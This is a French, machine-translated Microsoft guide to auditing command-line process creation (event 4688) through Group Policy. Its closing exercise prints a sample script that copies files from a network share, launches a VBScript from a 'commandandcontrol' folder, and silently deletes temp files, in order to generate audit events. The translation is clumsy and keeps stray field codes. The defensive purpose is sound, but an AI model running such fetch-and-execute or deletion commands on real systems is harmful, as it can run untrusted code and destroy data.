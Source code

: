 ```yaml
---
ms.assetid: c8597cc8-bdcb-4e59-a09e-128ef5ebeaf8
title: Audit des processus de ligne de commande
description: 
author: billmath
ms.author: billmath
manager: femila
ms.date: 05/31/2017
ms.topic: article
ms.prod: windows-server-threshold
ms.technology: identity-adds
ms.openlocfilehash: 61e7a5ca2b9c00c9976e6032bb10adb1974020b0
ms.sourcegitcommit: db290fa07e9d50686667bfba3969e20377548504
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 12/12/2017
---
```

# <a name="command-line-process-auditing"></a>Audit des processus de ligne de commande

>S’applique à: Windows Server2016, Windows Server2012R2

**Auteur**: Justin Turner, ingénieur Support résolution Senior avec le groupe de Windows  
  
> [!NOTE]  
> Ce contenu est écrit par un ingénieur du support client Microsoft et est destiné aux administrateurs expérimentés et architectes système qui recherchent des explications techniques plus approfondies des fonctionnalités et des solutions Windows Server2012R2 que proposent généralement les rubriques sur TechNet. Toutefois, il n’a pas subi les mêmes passes, afin de la partie du langage peut sembler que moins finalisée que ce qui se trouvent généralement sur TechNet.  
  
## <a name="overview"></a>Vue d’ensemble  
  
-   L’événement d’audit de la création des processus 4688 ID inclut désormais des informations d’audit pour les processus de ligne de commande.  
  
-   Il enregistre également hachage SHA1/2 du fichier exécutable dans le journal des événements Applocker  
  
    -   Applications et des services\microsoft\windows\applocker  
  
-   Vous activez via un GPO, mais il est désactivé par défaut  
  
    -   «Inclure la ligne de commande dans les événements de création de processus»  
  
![l’audit de ligne de commande](media/Command-line-process-auditing/GTR_ADDS_Event4688.gif)  
  
**Figure SEQ Figure \\\ * ARABIC événement 16 4688**  
  
Passez en revue l’événement mis à jour 4688 ID dans REF _Ref366427278 \h Figure16.  Avant cette version aucune mise à jour des informations de **ligne de commande de processus** dans le journal.  En raison de cette journalisation supplémentaire, nous pouvons voir que non seulement le processus wscript.exe démarré, mais qu’il était également utilisé pour exécuter un script VB.  
  
## <a name="configuration"></a>Configuration  
Pour afficher les effets de cette mise à jour, vous devez activer les deux paramètres de stratégie.  
  
### <a name="you-must-have-audit-process-creation-auditing-enabled-to-see-event-id-4688"></a>Vous devez disposer de la création du processus d’Audit activé à voir l’événement 4688 ID d’audit.  
Pour activer la stratégie d’Audit de création de processus, modifiez la stratégie de groupe suivant:  
  
**Emplacement de la stratégie:** Configuration ordinateur > stratégies > paramètres Windows > paramètres de sécurité > configuration avancée d’Audit > suivi détaillé  
  
**Nom de la stratégie:** auditer la création de processus  
  
**Prise en charge sur:** Windows7 et versions ultérieures  
  
**Description/aide:**  
  
Ce paramètre de stratégie de sécurité détermine si le système d’exploitation génère des événements d’audit lors de la création d’un processus (démarrage) et le nom du programme ou de l’utilisateur qui l’a créé.  
  
Ces événements d’audit peut vous aider à comprendre comment un ordinateur est utilisé et pour suivre l’activité de l’utilisateur.  
  
Volume de l’événement: faible à moyenne, en fonction de l’utilisation du système  
  
**Par défaut:** non configuré  
  
### <a name="in-order-to-see-the-additions-to-event-id-4688-you-must-enable-the-new-policy-setting-include-command-line-in-process-creation-events"></a>Afin de voir les ajouts à l’événement 4688 ID, vous devez activer le nouveau paramètre de stratégie: inclure la ligne de commande dans les événements de création de processus  
**Table de Table SEQ \\\ * paramètre de stratégie de processus de ligne arabes commande 19**  
  
|Configuration de la stratégie|Détails|  
|------------------------|-----------|  
|**Chemin d’accès**|Création de processus administrative Templates\System\Audit|  
|**Paramètre**|**Inclure la ligne de commande dans les événements de création de processus**|  
|**Paramètre par défaut**|Non configuré (non activé)|  
|**Prise en charge sur:**|?|  
|**Description**|Ce paramètre de stratégie détermine quelles informations sont enregistrées dans les événements d’audit de sécurité lorsqu’un nouveau processus a été créé.<br /><br />Ce paramètre s’applique uniquement lorsque la stratégie d’Audit de création de processus est activée. Si vous activez ce paramètre de stratégie que les informations de ligne de commande pour chaque processus seront avoir ouvert une session en texte brut dans le journal de sécurité dans le cadre de l’événement d’Audit de création de processus 4688, «un nouveau processus a été créé,» sur les stations de travail et les serveurs sur lesquels ce paramètre de stratégie est appliqué.<br /><br />Si vous désactivez ou ne configurez pas ce paramètre de stratégie, les informations de ligne de commande du processus ne pas être incluses dans les événements d’Audit de création de processus.<br /><br />Par défaut: Non configuré<br /><br />Remarque: Lorsque ce paramètre de stratégie est activé, tout utilisateur ayant accès à lire que les événements de sécurité seront en mesure de lire les arguments de ligne de commande pour toute correctement qui créé des processus. Arguments de ligne de commande peuvent contenir des informations sensibles ou privées telles que des mots de passe ou des données utilisateur.|  
  
![l’audit de ligne de commande](media/Command-line-process-auditing/GTR_ADDS_IncludeCLISetting.gif)  
  
Lorsque vous utilisez les paramètres de Configuration de stratégie d’Audit avancée, vous devez confirmer que ces paramètres ne sont pas remplacés par les paramètres de stratégie d’audit de base.  Événement4719 est consigné lorsque les paramètres sont remplacés.  
  
![l’audit de ligne de commande](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)  
  
La procédure suivante montre comment éviter les conflits en bloquant l’application de tous les paramètres de stratégie d’audit de base.  
  
### <a name="to-ensure-that-advanced-audit-policy-configuration-settings-are-not-overwritten"></a>Pour vous assurer que les paramètres de Configuration avancée de stratégie d’Audit ne sont pas remplacés.  
![l’audit de ligne de commande](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)  
  
1.  Ouvrez la console de gestion de stratégie de groupe  
  
2.  Avec le bouton droit de la stratégie de domaine par défaut, puis cliquez sur Modifier.  
  
3.  Double-cliquez sur la Configuration de l’ordinateur, double-cliquez sur les stratégies, puis double-cliquez sur Paramètres Windows.  
  
4.  Double-cliquez sur paramètres de sécurité, stratégies locales, puis cliquez sur Options de sécurité.  
  
5.  Double-cliquez d’Audit: Paramètres de sous-catégorie de stratégie Force audit (WindowsVista ou version ultérieure) pour remplacer les paramètres de catégorie de stratégie d’audit, puis cliquez sur Définir ce paramètre de stratégie.  
  
6.  Cliquez sur activé, puis cliquez sur OK.  
  
## <a name="additional-resources"></a>Ressources supplémentaires  
[Création du processus d’audit](https://technet.microsoft.com/library/dd941613(v=WS.10).aspx)  
  
[Stratégie d’Audit de sécurité avancée Step-by-Step Guide](https://technet.microsoft.com/library/dd408940(v=WS.10).aspx)  
  
[AppLocker: Forum aux Questions](https://technet.microsoft.com/library/ee619725(v=ws.10).aspx)  
  
## <a name="try-this-explore-command-line-process-auditing"></a>Procédez comme suit: Explorer l’audit des processus de ligne de commande  
  
1.  Activer **la création du processus d’Audit** événements et assurez-vous que la configuration de la stratégie d’Audit avancée n’est pas remplacée.  
  
2.  Créer un script qui génère des événements d’intérêt et exécutez le script.  Observer les événements.  Voici à quoi ressemblait le script utilisé pour générer l’événement dans la leçon:  
  
    ```  
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward  
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward  
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs  
    del c:\systemfiles\temp\*.* /Q  
    ```  
  
3.  Activer l’audit des processus de ligne de commande  
  
4.  Exécuter le même script et observer les événements  
  


